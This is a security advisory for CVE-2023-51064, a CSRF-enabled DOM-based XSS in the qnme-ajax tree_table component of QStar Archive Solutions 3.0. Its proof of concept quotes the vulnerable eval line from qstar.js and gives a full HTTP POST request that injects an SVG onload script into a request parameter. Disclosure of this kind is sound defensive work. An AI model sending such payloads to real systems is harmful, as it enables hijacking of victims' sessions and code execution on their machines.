

> [Suggested description]
> QStar Archive Solutions Release RELEASE_3-0 Build 7 Patch 0 was
> discovered to contain a Cross-Site Request Forgery (CSRF) via the
> component qnme-ajax?method=tree_table.
>
> ------------------------------------------
>
> [Vulnerability Type]
> Cross Site Request Forgery (CSRF)
>
> ------------------------------------------
>
> [Vendor of Product]
> QStar
>
> ------------------------------------------
>
> [Affected Product Code Base]
> QStar Archive Solutions - Release RELEASE_3-0 Build 7 Patch 0
>
> ------------------------------------------
>
> [Affected Component]
> qnme-ajax?method=tree_table
>
> ------------------------------------------
>
> [Attack Type]
> Remote
>
> ------------------------------------------
>
> [Impact Code execution]
> true
>
> ------------------------------------------
>
> [Impact Escalation of Privileges]
> true
>
> ------------------------------------------
>
> [Attack Vectors]
> to exploit this vulnerability, an attacker must craft a CSRF exploit and socially engineer the victim to click on a link. The CSRF exploit must have the POST request to exploit the XSS vulnerability.
>
> ------------------------------------------
>
> [Discoverer]
> Sean Bales
>
> ------------------------------------------
>
> [Reference]
> http://qstar.com

## CVE-2023-51064

### Description
QStar Archive Solutions Release RELEASE_3-0 Build 7 Patch 0 was discovered to contain a DOM Based reflected XSS vulnerability within the component `qnme-ajax?method=tree_table`.

### Vulnerability Type
XSS 

### Vendor of Product
QStar

### Affected Product Code Base
QStar Archive Solutions - Release RELEASE_3-0 Build 7 Patch 0

### Exploitation
to exploit this vulnerability, an attacker must craft a CSRF exploit and socially engineer the victim to click on a link. The CSRF exploit must have the POST request to exploit the XSS vulnerability.

### PoC 

> Vulnerable Code - ./qstar.js
```js
line 256 -> return eval("("+data+")");
```

> HTTP Post Request

```
POST /qnme-ajax?method=tree_table HTTP/1.1
Host: 10.0.10.5:7777
Cookie: PHPSESSID=XXXXXX; QNMSESSID=XXXXXXXX; undefined=XXXXXXX; browser=1; fs_agent=2%7C2%7C3; active=fs_agent; fs=1%7C2%7C1
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json, text/javascript, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://10.0.10.5:7777/qnme-browser
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 176
Origin: https://10.0.10.5:7777
Dnt: 1
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

args%5Bcheck%5D=0&args%5Bhelper%5D=browser&args%5Bparent%5D=1<html><body><svg onload=alert(1)>&args%5Blevel%5D=1&args%5Bkey%5D=undefined&args%5BisFiles%5D=1&args%5Block%5D=true
```

